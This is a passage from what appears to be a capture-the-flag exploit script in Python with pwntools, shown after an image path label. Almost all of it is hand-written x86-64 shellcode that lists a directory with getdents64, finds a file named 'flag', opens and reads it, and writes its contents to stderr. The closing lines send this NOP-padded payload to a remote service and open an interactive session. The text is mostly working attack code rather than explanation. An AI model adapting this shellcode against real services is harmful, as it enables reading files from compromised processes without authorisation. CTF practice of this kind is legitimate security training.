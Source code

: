 ```py
push SYS_getdents64
pop rax
syscall   # getdents64

push rsi
pop r12                      # r12 = current linux_dirent64

jmp loop
loop_start:
xor r13,r13
mov r13w, word ptr [r12+0x10] # next linux_dirent64 offset
cmp dword ptr [r12+0x13], 0x67616c66 # "flag"
jz start_orw
add r12, r13                 # r13 = next linux_dirent64

loop:
cmp qword ptr [r12+8],0
jz finish
jmp loop_start


start_orw:
push r12
pop rdi
add rdi,0x13
xor rsi,rsi
push rsi;pop rdx
push 2;pop rax
syscall      # open flag
push rax
pop rdi
push r12
pop rsi
add rsi,0x100
inc dh
xor rax,rax
syscall      # read flag content to buf
push 2;pop rdi
push rdi;pop rax
dec rax
syscall      # write flag content to stderr
push 1
pop rax
push r12
pop rsi
add rsi,0x13
syscall      # write flag name to stderr

finish:
push 0x3c
pop rax
syscall      # exit

"""
s.sendafter(b"code:\n",asm(sc).rjust(0x100,b"\x90"))
s.send(b".\x00".ljust(0x100,b"\x90")+asm(sc2))
s.interactive()

```
